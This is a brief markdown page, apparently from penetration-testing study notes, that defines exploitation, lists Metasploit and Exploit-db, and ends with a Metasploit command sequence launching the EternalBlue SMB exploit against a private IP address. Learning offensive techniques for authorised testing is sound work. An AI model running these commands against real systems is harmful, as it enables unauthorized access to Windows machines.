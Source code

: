 

# Exploitation

## Overview
Exploitation involves taking advantage of identified vulnerabilities to gain unauthorized access or control over a system.

## Techniques
- **Exploiting Known Vulnerabilities** - Using exploits for vulnerabilities found during scanning.
- **Custom Exploits** - Developing custom exploits for specific vulnerabilities.

## Tools
- **Metasploit** - A framework for developing and executing exploits.
- **Exploit-db** - A database of public exploits.

## Example
Using `Metasploit` to exploit a vulnerability:
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
exploit

